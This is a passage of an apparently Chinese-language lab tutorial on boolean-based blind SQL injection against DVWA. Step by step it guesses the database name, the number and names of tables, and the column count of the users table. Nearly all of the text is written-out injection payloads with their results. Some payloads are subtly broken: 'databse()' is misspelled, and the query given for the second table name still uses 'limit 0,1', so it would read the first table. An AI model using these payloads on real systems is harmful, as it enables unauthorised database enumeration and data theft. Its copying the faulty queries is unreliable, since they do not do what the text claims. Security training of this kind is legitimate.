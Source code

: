 1’ and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值大于100，（小写字母d的ascii的值）

由此推断数据库名称的第一个字母是d，同理推断下去，可知数据库名为dvwa。

**3.猜解数据库中的表名**

先猜表的数量

1’ and (select count (table_name) from information_schema.tables where table_schema=database())=1 #

显示不存在，说明数据表的数量不为1

1’ and (select count (table_name) from information_schema.tables where table_schema=database())=2 #

显示存在，说明存在两个表。

接着猜解表名长度

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))>10 #，输出MISSING，显示不存在，说明长度值小于10

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))>5 #，显示存在，那么说明这个长度值在5-10之间，继续往下猜解。

然后在5，6，7，8，9里挨个去试，我这里就不截图了

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #，显示存在，那么说第一个表名长度为9。

然后利用二分法继续猜解第一张表的9个字母都是啥

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #

直到—— 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103 #，对应的字母为g。

同样的方法继续，分别得到其它的8个字母，为u、e、s、t、b、o、o、k，合起来为guestbook。

这是第一张表，第二张表也是如此

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>97 #

一直到猜解结束，可以得出第二张表名为users。

**4.猜解表中的字段名**

已知两张表，guestbook和users，我们直奔users表，信息重要。

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)>10 #

显示不存在，说明表中的字段数量小于10。

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)>5 #

那么说这个值在5-10之间，5，6，7，8，9挨个去试

最后

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 #

那说明users表存在8个字段信息。
